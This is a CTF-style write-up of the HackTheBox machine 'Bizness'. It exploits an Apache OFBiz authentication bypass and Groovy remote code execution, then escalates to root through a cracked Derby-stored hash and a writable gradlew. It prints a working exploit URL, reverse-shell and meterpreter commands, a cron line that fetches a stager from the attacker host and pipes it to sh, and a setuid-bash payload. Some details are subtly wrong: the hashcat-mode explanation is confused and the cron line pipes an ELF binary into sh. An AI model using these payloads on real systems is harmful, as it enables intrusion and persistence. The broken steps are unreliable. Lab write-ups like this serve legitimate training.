

<div class="callout callout-warning">

**🚧 Work in Progress**: This writeup is marked **partial** in my notes: the attack chain below may stop short of a full root/completion.

</div>

<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Debian 11), **Difficulty:** Easy, **Released:** 2024-01-06, **IP:** `10.10.11.252` → `bizness.htb`

</div>

<div class="callout callout-warning">

**Partial**

Recorded through the OFBiz RCE and the privesc *approach*; the exact Derby-hash extraction and crack weren't captured step-by-step. The researched detail is in the notes below and clearly marked.

</div>

<div class="callout callout-abstract">

**Attack Path**

1. HTTPS site is **Apache OFBiz**. The `ProgramExport` endpoint allows unauthenticated **Groovy** execution. **CVE-2023-51467** (auth bypass: `requirePasswordChange=Y` + a `;` in the path) chained with **CVE-2023-49070** (the Groovy sink).
2. Groovy payload → RCE → shell as **`ofbiz`**. The box is unstable, so drop a cron that re-pulls a stager.
3. OFBiz stores an admin credential hash (`$SHA$<salt>$<b64>`) in its embedded **Derby** database (`runtime/data/derby/ofbiz/seg0/*.dat`). Extract it, fix the URL-safe base64, crack it → the plaintext is **`root`'s password** (reuse) → `su root`.
4. *(Alt privesc)* `ofbiz.service` invokes the **world-writable** `/opt/ofbiz/gradlew`. Overwrite and wait for a restart.

</div>

<div class="callout callout-key">

**Credentials & Flags**


| Where | Value |
| --- | --- |
| OFBiz admin hash → cracked | see note (public writeups: `monkeybizness`) |
| `root` (password reuse) | same as the cracked OFBiz password |
| `user.txt` | `/home/ofbiz/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Bizness is a pure N-day: **Apache OFBiz** (an enterprise ERP suite) with a December-2023 pre-auth RCE that was headline news when the box dropped. The foothold is copy-paste; the box's actual teaching value is the **privesc**, which is a nice piece of applied forensics. OFBiz uses an embedded Apache **Derby** database, and you have to know where Derby keeps its data on disk, `strings` the `.dat` files to pull the admin password hash, understand OFBiz's `$SHA$salt$hash` format (and that it uses **URL-safe base64**, which trips up hashcat until you convert it), then crack it. Root falls to **password reuse**.

Related N-day web boxes: [Analytics](/writeups/hackthebox/linux/easy/analytics/) (Metabase), [Monitored](/writeups/hackthebox/linux/medium/monitored/)/[MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/) (Cacti), [Heal](/writeups/hackthebox/linux/medium/heal/). Related "crack a hash from an app's own database": [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/) (Cacti `user_auth`), [Cat](/writeups/hackthebox/linux/medium/cat/) (SQLite `users`).

---

## Reconnaissance

```console
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: commonName=bizness.htb
```

nginx just reverse-proxies; `https://bizness.htb/` is **Apache OFBiz** (the login page and `/accounting`, `/webtools` paths give it away). The footer / `/webtools/control/main` reveals the release. An 18.12.x line that predates the patch.

<div class="callout callout-note">

**Fingerprinting OFBiz**

Tells: the "OFBiz" branding, `/webtools/`, `/accounting/`, `/catalog/` context roots, a `OFBiz.Visitor` cookie, and a self-signed cert for the bare hostname. Version comes from `/webtools/control/main` or the git tag in error pages. Anything ≤ 18.12.10 is vulnerable to CVE-2023-51467.

</div>

## Foothold. OFBiz Groovy RCE (CVE-2023-49070 / CVE-2023-51467)

<div class="callout callout-note">

**How the auth bypass works**

OFBiz protects `ProgramExport` (a Groovy-eval debug endpoint) behind a login check. **CVE-2023-49070** originally required the deprecated XML-RPC endpoint; the patch was incomplete and **CVE-2023-51467** showed the login check itself is bypassable: sending `requirePasswordChange=Y` makes `checkLogin` return `success` *without* valid credentials, and appending `;` to the servlet path (`/ProgramExport;/`) defeats the path-based filter. With the check bypassed, the `USERNAME` field is passed to a `GroovyShell.evaluate()`, giving direct code execution as the `ofbiz` service user.

</div>

Confirm out-of-band first:

```
https://bizness.htb/webtools/control/ProgramExport;/?USERNAME=import+groovy.lang.GroovyShell%3B+String+expression+%3D+%22'nslookup+<oast-id>.oast.live'.execute()%22%3B+GroovyShell+gs+%3D+new+GroovyShell()%3B+gs.evaluate(expression)%3B&PASSWORD=&requirePasswordChange=Y
```

Then use a public PoC for the shell:

```bash
python3 exploit.py https://bizness.htb/ shell 10.10.14.51:9001
```



The box kills processes aggressively. Keep a foothold with a cron + stager:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.51 LPORT=9002 -f elf > baphomet.bin
(crontab -l 2>/dev/null; echo "* * * * * curl http://10.10.14.51:3333/baphomet.bin | sh") | crontab -
```

`user.txt` is readable as `ofbiz`.

## Privilege Escalation. Crack the OFBiz admin hash

`linpeas` flags the writable `gradlew` and the Derby data directory. Pull the stored admin hash:

```bash
grep -rl 'SHA' /opt/ofbiz/runtime/data/derby/ofbiz/seg0/ 2>/dev/null
strings /opt/ofbiz/runtime/data/derby/ofbiz/seg0/*.dat | grep -i '\$SHA\$'
```

<div class="callout callout-note">

**OFBiz hash format & the base64 gotcha**

OFBiz stores passwords as `$SHA$<salt>$<hash>` where `<hash>` is the **URL-safe base64** (`-`/`_` instead of `+`/`/`) of `SHA1(salt + password)`, with trailing `=` stripped. hashcat mode **`-m 20`** (`md5($salt.$pass)` layout, reused for `sha1($salt.$pass)` via `-m 120`) expects standard base64 hex. Convert:
```bash
# $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I   ->  salt "d", URL-safe b64 body
echo 'uP0_QaVBpDWFeo8-dRzDqRwXQ2I' | tr '_-' '/+' | base64 -d | xxd -p
# then feed  <hex>:d  to  hashcat -m 120
```
Public writeups record the plaintext as **`monkeybizness`**. The operator's notes stop before the crack completed, so treat that value as researched, not recorded.

</div>

```bash
hashcat -m 120 'hash:salt' /usr/share/wordlists/rockyou.txt
```

The cracked password is also **`root`'s** password:

```bash
su root        # or: ssh root@bizness.htb
cat /root/root.txt
```

<div class="callout callout-note">

**Alternative privesc, Writable `gradlew`**

`/etc/systemd/system/ofbiz.service` runs `/opt/ofbiz/gradlew`, which is **world-writable**. Replace it with a payload (`cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash`) and wait for the service to restart (or trigger it). Cleaner than the hash crack if you just want root fast.

</div>

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/ofbiz/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons & Takeaways

- **Patch OFBiz.** CVE-2023-51467 is unauthenticated, reliable, and wormable; it was mass-exploited within days of disclosure.
- **Applications ship databases.** Derby, SQLite, H2, embedded Postgres. Know where each stores data on disk; a shell in the app user often means offline access to every credential the app holds.
- **Know your base64 variants.** URL-safe vs standard will silently give you a wrong hash.
- **Service unit files are attack surface**. Audit every path an `ExecStart` touches for write permissions (`gradlew` here).
- **Never reuse the application admin password for `root`.**

---

## Related Writeups

- **N-day web product → public exploit:** [Analytics](/writeups/hackthebox/linux/easy/analytics/), [Monitored](/writeups/hackthebox/linux/medium/monitored/), [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Heal](/writeups/hackthebox/linux/medium/heal/)
- **Crack a hash from the app's own DB:** [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Cat](/writeups/hackthebox/linux/medium/cat/)
- **Writable service / script → root:** [Monitored](/writeups/hackthebox/linux/medium/monitored/), [Hack Smarter Security](/writeups/tryhackme/windows/medium/hack-smarter-security/), [Nexus](/writeups/hackthebox/linux/easy/nexus/)
- **Password reuse to `root`:** [Blocky](/writeups/hackthebox/linux/easy/blocky/), [Dog](/writeups/hackthebox/linux/easy/dog/), [Cat](/writeups/hackthebox/linux/medium/cat/)

## References

- CVE-2023-51467 (OFBiz auth bypass) <https://nvd.nist.gov/vuln/detail/CVE-2023-51467>
- CVE-2023-49070 <https://nvd.nist.gov/vuln/detail/CVE-2023-49070>
- OFBiz security advisory <https://cwiki.apache.org/confluence/display/OFBIZ/Security>
- hashcat example hashes <https://hashcat.net/wiki/doku.php?id=example_hashes>
